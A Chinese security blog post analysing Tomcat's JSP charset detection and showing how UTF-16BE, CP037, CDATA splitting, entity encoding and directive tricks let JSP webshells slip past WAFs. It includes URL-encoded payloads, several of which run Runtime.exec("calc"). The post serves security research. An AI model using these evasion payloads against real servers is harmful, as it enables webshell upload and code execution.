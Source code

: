 > 原文链接: https://www.anquanke.com//post/id/210630 


# WAF Bypass之webshell上传jsp与tomcat


                                阅读量   
                                **239077**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t0108fcd6bd87865de9.png)](https://p4.ssl.qhimg.com/t0108fcd6bd87865de9.png)



## 1.开个头

事情是这样的，某一天，笔者闲着无聊，对着Tomcat的示例文件到处点点，希望寻找出点什么，意外发现Tomcat的示例文件中一些有趣的示例：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](WAF_Bypass%E4%B9%8Bwesbhell%E4%B8%8A%E4%BC%A0-jsp%E4%B8%8Etomcat/tomcat_jsp_xml_example.png)[![](https://p5.ssl.qhimg.com/t01333da77ae4008da3.png)](https://p5.ssl.qhimg.com/t01333da77ae4008da3.png)

随后笔者翻开Tomcat的解析代码，对其进行了一番静态代码审阅，果然有蹊跷，后面又调试看了看。



## 2 代码要点简析

对于脚本jsp文件，会通过EncodingDetector进行字符集类型的探测，该处代码要点较多，也是主逻辑，所以整片代码放上来了。

apache-tomcat-9.0.35/lib/jasper.jar!/org/apache/jasper/compiler/ParserController.class：determineSyntaxAndEncoding

[![](https://p0.ssl.qhimg.com/t015bbd4160feb49cdf.png)](https://p0.ssl.qhimg.com/t015bbd4160feb49cdf.png)

编码探测过程在该类初始化方法中进行，首先会使用processBom方法，根据文件的前4个字节探测字符集类型，这里的代码和xerces的Magic Charset中的字符集类型探测代码有着异曲同工之妙…；之后会使用getPrologEncoding方法尝试获取文件的declare charset，declare charset优先级高于magic charset。

apache-tomcat-9.0.35/lib/jasper.jar!/org/apache/jasper/compiler/EncodingDetector.class

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](WAF_Bypass%E4%B9%8Bwesbhell%E4%B8%8A%E4%BC%A0-jsp%E4%B8%8Etomcat/EncodingDetector.png)[![](https://p2.ssl.qhimg.com/t01f8bb18502758ce27.png)](https://p2.ssl.qhimg.com/t01f8bb18502758ce27.png)

processBom方法会调用parseBom方法根据文件头4个字节返回字符集类型：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](WAF_Bypass%E4%B9%8Bwesbhell%E4%B8%8A%E4%BC%A0-jsp%E4%B8%8Etomcat/processBom.png)[![](https://p5.ssl.qhimg.com/t01181f8aacb98ec9d8.png)](https://p5.ssl.qhimg.com/t01181f8aacb98ec9d8.png)

getPrologEncoding将文件流传入xml解析，底层还是用的xerces，如果编码类型为xerces不支持的，这里会暂时忽略掉异常。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](WAF_Bypass%E4%B9%8Bwesbhell%E4%B8%8A%E4%BC%A0-jsp%E4%B8%8Etomcat/getPrologEncoding.png)[![](https://p5.ssl.qhimg.com/t01cf9f75d3c5bcddbe.png)](https://p5.ssl.qhimg.com/t01cf9f75d3c5bcddbe.png)

但并非processBom或getPrologEncoding得到的字符集就能被成功，后续创建字符流读取器会检查自身是否支持这些字符集。

这一步中也会做字符集别名的映射查找，一番操作过后，如果该字符集未读取器不支持的，最后会抛出异常。如UTF-32BE字符集，在getPrologEncoding方法中会抛出异常（不支持），在processBom中虽然不会抛出异常，但是其过程中得到的字符集名称为ISO-10646-UCS-4。而在InputStreamReader中不支持该字符集，也无别名映射（想想也是，ISO-10646-UCS-4这个名字根本也无法判断大端小端，而且代码流程中也没有传递大小端这一变量）。

jdk1.8.0_191/src.zip!/java/nio/charset/Charset.java

[![](https://p3.ssl.qhimg.com/t015a8003536f294c17.png)](https://p3.ssl.qhimg.com/t015a8003536f294c17.png)

ParserController.class：determineSyntaxAndEncoding方法中，如果文件没有带BOM，会触发getPageEncodingForJspSyntax函数流程

apache-tomcat-9.0.30-src/java/org/apache/jasper/compiler/ParserController.java，getPageEncodingForJspSyntax

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](WAF_Bypass%E4%B9%8Bwesbhell%E4%B8%8A%E4%BC%A0-jsp%E4%B8%8Etomcat/getPageEncodingForJspSyntax.png)[![](https://p5.ssl.qhimg.com/t01941df17e5d5441ec.png)](https://p5.ssl.qhimg.com/t01941df17e5d5441ec.png)

从代码来看，指令标签有好几种：

```
&lt;jsp:directive.page  /&gt;
```

```
&lt;%@ page  %&gt;
```

声明字符编码的方式至少有两种：

```
pageEncoding="UTF-16be"
```

```
contentType="charset=utf-16be"
```



## 2 实战讲解

### <a class="reference-link" name="2.1%20charset"></a>2.1 charset

通过阅读代码流程，我们可以得到如下表格，该表格用于Magic Charset方法，而XML的Declare Charset也可以使用，笔者在这里就不再描述了，参考笔者的关于xerces解析的文章即可 [WAF Bypass之xerces解析](https://www.anquanke.com/post/id/209826)

[![](https://p1.ssl.qhimg.com/t01a247ecd68f743da3.png)](https://p1.ssl.qhimg.com/t01a247ecd68f743da3.png)

有如下原始JSP文件，jsp_xml.jsp:

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2"&gt;
&lt;jsp:directive.page contentType="text/html"/&gt;
&lt;jsp:declaration&gt;
&lt;/jsp:declaration&gt;
&lt;jsp:scriptlet&gt;
out.write("I'm turn1tup!");
&lt;/jsp:scriptlet&gt;
&lt;jsp:text&gt;
&lt;/jsp:text&gt;
&lt;/jsp:root&gt;
```

使用UTF-16BE字符集进行编码：

```
%00%3C%00%3F%00x%00m%00l%00%20%00v%00e%00r%00s%00i%00o%00n%00%3D%00%22%001%00.%000%00%22%00%20%00e%00n%00c%00o%00d%00i%00n%00g%00%3D%00%22%00U%00T%00F%00-%001%006%00b%00e%00%22%00%3F%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00r%00o%00o%00t%00%20%00x%00m%00l%00n%00s%00%3A%00j%00s%00p%00%3D%00%22%00h%00t%00t%00p%00%3A%00/%00/%00j%00a%00v%00a%00.%00s%00u%00n%00.%00c%00o%00m%00/%00J%00S%00P%00/%00P%00a%00g%00e%00%22%00%0A%00%20%00%20%00v%00e%00r%00s%00i%00o%00n%00%3D%00%22%001%00.%002%00%22%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00d%00i%00r%00e%00c%00t%00i%00v%00e%00.%00p%00a%00g%00e%00%20%00c%00o%00n%00t%00e%00n%00t%00T%00y%00p%00e%00%3D%00%22%00t%00e%00x%00t%00/%00h%00t%00m%00l%00%22%00/%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00d%00e%00c%00l%00a%00r%00a%00t%00i%00o%00n%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00d%00e%00c%00l%00a%00r%00a%00t%00i%00o%00n%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00s%00c%00r%00i%00p%00t%00l%00e%00t%00%3E%00%0A%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%0A%00%3C%00/%00j%00s%00p%00%3A%00s%00c%00r%00i%00p%00t%00l%00e%00t%00%3E%00%0A%00%3C%00j%00s%00p%00%3A%00t%00e%00x%00t%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00t%00e%00x%00t%00%3E%00%0A%00%3C%00/%00j%00s%00p%00%3A%00r%00o%00o%00t%00%3E%00%0A
```

使用CP037进行编码：

```
Lo%A7%94%93%40%A5%85%99%A2%89%96%95%7E%7F%F1K%F0%7F%40%85%95%83%96%84%89%95%87%7E%7F%83%97%F0%F3%F7%7Fon%25L%91%A2%97z%99%96%96%A3%40%A7%94%93%95%A2z%91%A2%97%7E%7F%88%A3%A3%97zaa%91%81%A5%81K%A2%A4%95K%83%96%94a%D1%E2%D7a%D7%81%87%85%7F%25%40%40%A5%85%99%A2%89%96%95%7E%7F%F1K%F2%7Fn%25L%91%A2%97z%84%89%99%85%83%A3%89%A5%85K%97%81%87%85%40%83%96%95%A3%85%95%A3%E3%A8%97%85%7E%7F%A3%85%A7%A3a%88%A3%94%93%7Fan%25L%91%A2%97z%84%85%83%93%81%99%81%A3%89%96%95n%25La%91%A2%97z%84%85%83%93%81%99%81%A3%89%96%95n%25L%91%A2%97z%A2%83%99%89%97%A3%93%85%A3n%25%96%A4%A3K%A6%99%89%A3%85M%7F%C9%7D%94%40%A3%A4%99%95%F1%A3%A4%97Z%7F%5D%5E%25La%91%A2%97z%A2%83%99%89%97%A3%93%85%A3n%25L%91%A2%97z%A3%85%A7%A3n%25La%91%A2%97z%A3%85%A7%A3n%25La%91%A2%97z%99%96%96%A3n%25
```

编码方式可参考 [https://github.com/turn1tup/scripts/blob/master/charset_test.py](https://github.com/turn1tup/scripts/blob/master/charset_test.py) ：

[![](https://p5.ssl.qhimg.com/t014eaaab4325140116.png)](https://p5.ssl.qhimg.com/t014eaaab4325140116.png)

对于以下代码，我们也可以对其进行编码

```
&lt;% out.write("I/'m turn1tup!");  %&gt;
```

使用UTF-16BE编码，需带BOM标识：

```
%FE%FF%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00%25%00%3E
```

### <a class="reference-link" name="2.2%20XML%E7%89%B9%E6%80%A7"></a>2.2 XML特性

参考文章 [WAF Bypass之xerces解析](https://www.anquanke.com/post/id/209826)，这里举一些例子：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2"&gt;
&lt;jsp:directive.page contentType="text/html"/&gt;
&lt;jsp:declaration&gt;
&lt;/jsp:declaration&gt;
&lt;jsp:scriptlet&gt;
&lt;![CDATA[o]]&gt;u&lt;![CDATA[t.writ]]&gt;&lt;![CDATA[e]]&gt;("I'm turn1tup!");
&lt;/jsp:scriptlet&gt;
&lt;jsp:text&gt;
&lt;/jsp:text&gt;
&lt;/jsp:root&gt;
```

HTML实体编码，包括16进制、10进制、字符实体：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
  version="1.2"&gt;
&lt;jsp:directive.page contentType="text/html"/&gt;
&lt;jsp:declaration&gt;
&lt;/jsp:declaration&gt;
&lt;jsp:scriptlet&gt;
out.write("I'm turn1tup!");
&lt;/jsp:scriptlet&gt;
&lt;jsp:text&gt;
&lt;/jsp:text&gt;
&lt;/jsp:root&gt;
```

### <a class="reference-link" name="2.3%20PageEncoding"></a>2.3 PageEncoding

指令标签&lt;%@方式：

```
&lt;%@ page contentType="charset=utf-16be" %&gt;%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

指令标签&lt;jsp:directive.page /&gt; 方式

```
&lt;jsp:directive.page contentType="charset=utf-16be"/&gt;%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

PageEncoding声明方式

```
&lt;jsp:directive.page pageEncoding="utf-16be"/&gt;%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E
```

标签的位置也可以变化：

```
%00%3C%00%25%00%20%00o%00u%00t%00.%00w%00r%00i%00t%00e%00%28%00%22%00I%00%27%00m%00%20%00t%00u%00r%00n%001%00t%00u%00p%00%21%00%22%00%29%00%3B%00%20%00o%00u%00t%00.%00p%00r%00i%00n%00t%00%28%00R%00u%00n%00t%00i%00m%00e%00.%00g%00e%00t%00R%00u%00n%00t%00i%00m%00e%00%28%00%29%00.%00e%00x%00e%00c%00%28%00%22%00c%00a%00l%00c%00%22%00%29%00%29%00%3B%00%20%00%25%00%3E&lt;%@ page contentType="charset=utf-16be"
```



## 3 结语

好吧，还是有点意思。
